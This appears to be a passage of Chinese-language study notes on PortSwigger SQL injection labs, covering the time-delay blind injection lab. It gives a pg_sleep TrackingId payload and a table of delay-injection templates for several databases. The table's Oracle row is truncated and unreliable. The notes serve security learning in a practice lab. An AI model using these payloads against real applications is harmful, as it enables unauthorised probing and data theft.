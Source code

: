 

## 14.	实验室：具有时间延迟的盲 SQL 注入

![image-20250712232803833](portswigger.assets/image-20250712232803833.png)

**TrackingId=x'||pg_sleep(10)--**

| 数据库类型               | 延迟函数 / 方法                           | 判断语句模板（示例）                                         | 说明与特性                     |
| ------------------------ | ----------------------------------------- | ------------------------------------------------------------ | ------------------------------ |
| **MySQL**                | `SLEEP(seconds)`                          | `' OR IF(1=1, SLEEP(5), 0)-- `                               | SLEEP 函数延迟执行；IF 判断    |
| **PostgreSQL**           | `pg_sleep(seconds)`                       | `' OR (SELECT CASE WHEN 1=1 THEN pg_sleep(5) ELSE pg_sleep(0) END)-- ` | 支持 CASE、pg_sleep            |
| **Oracle**               | `dbms_pipe.receive_message('a', seconds)` | `'                                                           |                                |
| **Microsoft SQL Server** | `WAITFOR DELAY 'HH:MM:SS'`                | `'; IF(1=1) WAITFOR DELAY '0:0:5'-- `                        | 只接受字符串格式的 DELAY 参数  |
| **SQLite**               | ❌ 无内置延迟函数                          | ❌ 不支持常规时间盲注函数                                     | 通常需配合逻辑判断结合其他方式 |



## 15.实验室：具有时间延迟和信息检索的盲 SQL 注入

![image-20250712235446157](portswigger.assets/image-20250712235446157.png)
